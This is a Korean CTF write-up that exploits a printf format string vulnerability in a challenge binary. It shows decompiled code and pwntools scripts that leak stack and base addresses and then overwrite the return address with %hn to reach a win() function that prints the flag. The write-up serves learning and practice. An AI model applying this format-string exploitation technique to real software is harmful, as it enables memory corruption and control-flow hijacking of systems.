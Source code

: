 ## 함수 분석 / 취약점 발견
### ida 분석
1. 목표로 할 `win()` 함수가 존재한다.
```c++
int win()
{
  char *argv; // [rsp+0h] [rbp-20h]
  const char *v2; // [rsp+8h] [rbp-18h]
  __int64 v3; // [rsp+10h] [rbp-10h]

  printf("I'm not sure how, but your terrible leadership worked!");
  argv = "/bin/cat";
  v2 = "flag.txt";
  v3 = 0LL;
  return execve("/bin/cat", &argv, 0LL);
}
```
2. 50바이트만큼 입력받고 printf를 그대로 해주어 두번의 FSB가 가능하다. 검사를 index = 0에 대해서만 하므로 자유로운 입력이 가능하다.
```c++
  fgets(s, 50, _bss_start);
  printf("You chose: ");
  printf(s);
  if ( s[0] == 49 )
    return close_borders();
  result = 50 - (unsigned __int8)s[0];
  if ( s[0] == 50 )
    result = no_panic();
    ....

  printf("You chose: ");
  printf(s);
  if ( s[0] == 49 )
    return lose3();
  result = 50 - (unsigned __int8)s[0];
  if ( s[0] == 50 )
    result = lose4();
```
따라서, got 혹은 return 주소를 win의 주소로 덮어씌어주면 된다.

## 구현
초기에는 puts의 got를 short FSB로 2byte씩 덮어씌어주려 했으나 buffer의 크기가 작아 수행하지 못했다. 따라서 방향을 바꾸어 return값을 바꾸는 것을 목표로 하였다. 인접한 함수들간 주소가 인접함을 이용해 close_border의 return 주소를 win 함수의 주소로 2byte만 바꾸어줄 수 있다.
1. ret 주소 값과 base address 구하기.
    * $13이 _start의 주소이므로, _start의 offset과 win의 offset을 이용해 win의 주소를 구한다.
    * $14이 frame stack pointer 값이므로, 이를 이용해 ret의 위치를 구한다.
    ```python
    p.sendlineafter('out.\n', b'1 %14$p%13$p')

    p.recvuntil('You chose: 1 0x')
    res = p.recvuntil('0x')[:-2]
    log.info(res)

    rbp_addr = int(res, 16) - 0x10
    ret_addr = rbp_addr - 0x48

    res = p.recvuntil('\n')[:-1]
    log.info(res)
    base_addr = int(res, 16) - start_offset
    win_addr = base_addr + win_offset

    log.info(f'rbp_addr : {hex(rbp_addr)}')
    log.info(f'ret_addr : {hex(ret_addr)}')
    log.info(f'win_addr : {hex(win_addr)}')
    ```
2. return 주소의 하위 2바이트를 win_addr의 하위 2바이트로 바꾸면 win으로 return된다.
    ```python
    payload = b'%' + str(win_addr & 0xffff).encode() + b'c%11$hn'
    payload = payload.ljust(0x28, b'a')
    payload += p64(ret_addr)

    p.sendlineafter('plan.\n', payload)
    p.interactive()
    ```